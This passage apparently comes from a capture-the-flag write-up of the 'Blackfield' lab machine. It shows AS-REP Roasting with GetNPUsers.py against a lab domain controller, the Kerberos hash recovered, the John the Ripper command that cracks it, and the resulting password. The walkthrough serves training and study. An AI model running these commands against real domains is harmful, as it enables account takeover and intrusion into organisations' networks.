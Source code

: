 -----

### AS-REP Roasting

With a substantial list of valid usernames obtained from `kerbrute` and the `profiles$` SMB share, the next step was to identify users who do not require Kerberos pre-authentication. This vulnerability, known as AS-REP Roasting, allows an attacker to request a service ticket (TGT) for such users without providing their password, and then crack the hash offline.

```bash
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.129.93.138 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```

![kerb_result](images/browser_vTN9LHXHyx.png)

The `GetNPUsers.py` script successfully identified `support@BLACKFIELD.LOCAL` as a user with no pre-authentication required, along with a hash:

`$krb5asrep$23$support@BLACKFIELD.LOCAL:b2cbf2db3f0aaeb5ed96361a19e548ed$50b14a2023ea66c35e94e4ac64a976e7222c7446a0a0db98ff2f28b06b263cd99ddcd9ffc5bc97351100d7c1431eeef4e44b84ef738048f1f1c8db6d63486ff759d6278c0d8d67f759990708e2afbf85cb9e0902e82cdde28a5d5ae570db2f761e71d832e4e893768d925533aed937e5cdad9d36fda0da7090a67d01458178fdc81fa8208d12a77de82a1eb7f585c742214eb4b81bd262b12dae2eca8cf6c1b12b1954ec288ad445b1226ea8797c5e06c02d3acb5c3f17855d5076c9ce320dbaec0f1187c2bda8135aff50545365b825905ebbed856f4af91ce487cb2f204262a68166d6b479a30018d5bf7a30cf2b8b4674c63e`

This hash was then cracked using John the Ripper with the `rockyou.txt` wordlist:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![john_result](images/browser_xehnc61O0F.png)

The cracked password for `support@BLACKFIELD.LOCAL` was `#00^BlackKnight`.

Additionally, the `kerbrute` output confirmed valid usernames for `support@BLACKFIELD.local`, `guest@BLACKFIELD.local`, and `administrator@BLACKFIELD.local`.

-----

## Phase 2: Post-Compromise Enumeration and Privilege Escalation
